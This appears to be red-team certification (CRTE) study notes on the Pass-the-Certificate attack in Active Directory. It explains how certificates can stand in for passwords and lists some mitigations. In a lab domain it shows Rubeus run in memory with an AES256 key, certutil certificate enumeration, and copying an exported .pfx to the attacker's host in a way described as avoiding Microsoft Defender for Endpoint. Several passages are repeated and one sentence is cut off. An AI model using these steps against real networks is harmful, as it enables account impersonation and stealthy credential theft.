


CRTE - Certified Red Team Expert
Pass The Certificates Attack
The "Pass-the-Certificate" attack is a credential abuse technique that leverages certificates instead of traditional credentials like passwords or NTLM hashes to authenticate within a Windows environment. It is closely related to other credential relay attacks, such as "Pass-the-Hash" or "Pass-the-Ticket," but focuses on abusing certificates issued by Active Directory Certificate Services (ADCS) or other PKI systems. To understand this attack fully, it’s important to start with how certificates work in Windows authentication. Certificates are used for strong authentication mechanisms, especially in environments with ADCS. A certificate, when paired with its private key, can be used as proof of identity for a user or a computer. This proof can be used to authenticate to services like Remote Desktop Protocol (RDP), WinRM, or even for Kerberos operations. The certificate itself is tied to a specific identity, often a user account, and serves as an alternative to passwords or Kerberos tickets. The attack begins by identifying certificates stored on the system. These certificates can reside in the user or machine certificate stores and often include private keys. If an attacker can extract the private key along with the certificate, they essentially have the digital equivalent of a username and password combination for the account tied to the certificate. This is especially valuable because certificates are not subject to password policies, expiration warnings, or account lockouts. Once a certificate and its private key are obtained, the attacker can use them to impersonate the user or machine tied to the certificate. This is particularly useful in environments where multi-factor authentication (MFA) is implemented. Certificates are often considered one of the factors, and having access to the certificate effectively bypasses MFA. The attacker can then use the certificate to authenticate to network resources without needing the user's password or Kerberos ticket. One common way attackers obtain certificates is through Active Directory Certificate Services. ADCS is Microsoft's implementation of a Public Key Infrastructure (PKI) and is often used to issue certificates to users and computers. ADCS has several known attack vectors, such as misconfigured certificate templates, weak permissions, or exploitation techniques like ESC1 and ESC6, which allow attackers to request or enroll for certificates they shouldn’t have access to. Once a certificate is obtained through these methods, it becomes a powerful tool for lateral movement and privilege escalation. The Pass-the-Certificate attack has some key advantages for attackers. First, it’s stealthy because certificate authentication doesn’t generate the same types of logs as password-based authentication. This makes detection harder for defenders. Second, certificates are typically valid for a much longer time than passwords, often several months or even years, depending on how they were configured. This long validity period allows attackers to persist in the network without raising alarms. Mitigating this attack requires a combination of proper ADCS configuration, certificate management, and monitoring. Administrators should ensure that certificate templates are configured with the principle of least privilege, meaning only authorized accounts can request certain types of certificates. Private keys should always be stored securely, such as in a Hardware Security Module (HSM) or using Trusted Platform Module (TPM) protections, to prevent easy export. Monitoring for suspicious certificate activity, like unusual certificate requests or exports, can also help identify an attacker in the network. Understanding the Pass-the-Certificate attack highlights the importance of securing not just passwords but all forms of authentication material. As this technique abuses a legitimate authentication method, it emphasizes how important it is to treat certificates as sensitive credentials and apply rigorous controls to prevent their misuse. Mastering this topic involves learning how certificates are issued and used in Windows, how to identify misconfigurations in ADCS, and how to detect and respond to certificate-based threats.
The Kerberos authentication protocol works with tickets in order to grant access. An ST (Service Ticket) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can only be obtained by validating a first step named "pre-authentication" (except if that requirement is explicitly removed for some accounts, making them vulnerable to ASREProast). The pre-authentication can be validated symmetrically (with a DES, RC4, AES128 or AES256 key) or asymmetrically (with certificates). The asymmetrical way of pre-authenticating is called PKINIT. Pass the Certificate is the fancy name given to the pre-authentication operation relying on a certificate (i.e. key pair) to pass in order to obtain a TGT. This operation is often conducted along shadow credentials, AD CS escalation and UnPAC-the-hash attacks.
Keep in mind a certificate in itself cannot be used for authentication without the knowledge of the private key. A certificate is signed for a specific public key, that was generated along with a private key, which should be used when relying on a certificate for authentication. The "certificate + private key" pair is usually used in the following manner- PEM certificate + PEM private key
- PFX certificate export (which contains the private key) + PFX password (which protects the PFX certificate export)
 We can now execute Rubeus.exe into the memory using Loader.exe.
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:pawadmin /aes256:a92324f21af51ea2891a24e9d5c3ae9dd2ae09b88ef6a88cb292575d16063c30 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
We can now execute Rubeus.exe into the memory using Loader.exe.
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:pawadmin /aes256:a92324f21af51ea2891a24e9d5c3ae9dd2ae09b88ef6a88cb292575d16063c30 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

Now that we were able to elevate our privilege as pawadmin. Let’s now access starte enumerating.
Enumerating Pass The Certificates
Let’s start by enumerating LocalMachine Certificates Store. Let’s access our target host using winrs. winrs -r:US-Jump cmd The command certutil -store My lists all certificates in the Personal certificate store of the current user pawadmin.
This store contains certificates tied to the current user's account, which are typically used for authentication, encryption, or signing. The output provides details about these certificates.
certutil -store My
The command certutil -store My lists all certificates in the Personal certificate store of the current user pawadmin.
This store contains certificates tied to the current user's account, which are typically used for authentication, encryption, or signing. The output provides details about these certificates.
certutil -store My

- Serial Number: This is the unique identifier for the certificate. It's assigned by the issuing Certificate Authority (CA) and is used to uniquely identify the certificate in a system or when communicating with the CA.
- Issuer: This identifies the Certificate Authority (CA) that issued the certificate. In your case, the issuer is TECHCORP-DC-CA, meaning the TechCorp domain controller’s CA issued the certificate.
- NotBefore and NotAfter: These fields specify the validity period of the certificate.
- Subject: This details the identity tied to the certificate. Here, it is tied to pawadmin@techcorp.local, indicating this certificate is associated with the pawadmin user in the domain techcorp.local.
- Template: The certificate template used to generate this certificate. The template includes predefined settings for certificate issuance, such as permissions and intended use. Here, the OID (Object Identifier) 1.3.6.1.4... references a specific template, which you can look up for further details.
- Cert Hash (SHA1): This is the SHA-1 hash of the certificate. It uniquely identifies the certificate’s contents.
- Key Container: This shows where the private key is stored. The private key is critical because it allows the holder to authenticate as the user tied to the certificate. In your case, the private key is stored in the container te-Users-d57a73ce....
- Unique Container Name: This is the unique identifier for the private key container. It can help in locating and managing the private key within the system.
- Provider: This indicates the cryptographic provider used to generate and store the key. In this case, it’s Microsoft Enhanced Cryptographic Provider v1.0, a common Windows cryptographic provider.
- Encryption Test Passed: This confirms that the private key associated with the certificate is functional and can be used for encryption. If this test failed, the private key might be missing or inaccessible.

Please bare in mind that, the password we are using will not be Stark123 but 'Stark123' including the single quotes. We must be aware of that and do not forget in the future when the password is needed while using the .pfx file. We were able to successfully export the certificate. Let’s now get back to our attacking machine and exfiltrate the .pfx file. Let’s map a driver and use XCOPY.
This method of extraction will make us avoid triggering MDE, because net use x: \\US-Jump\C$\Users\pawadmin\Downloads Let’s now use XCOPY to copy the file to our attacking host.
echo F | xcopy x:pawadmin.pfx C:\AD\Tools\pawadmin.pfx
Let’s now use XCOPY to copy the file to our attacking host.
echo F | xcopy x:pawadmin.pfx C:\AD\Tools\pawadmin.pfx
 The way we just exfiltrated this certificate, avoided triggering the MDE.
Using improper methods to extract a certificate and its private key can trigger Microsoft Defender for Endpoint (MDE) or other Endpoint Detection and Response (EDR) solutions.
The way we just exfiltrated this certificate, avoided triggering the MDE.
Using improper methods to extract a certificate and its private key can trigger Microsoft Defender for Endpoint (MDE) or other Endpoint Detection and Response (EDR) solutions.
Note that if we try to extract certificates using PowerShell, that is also flagged by MDE.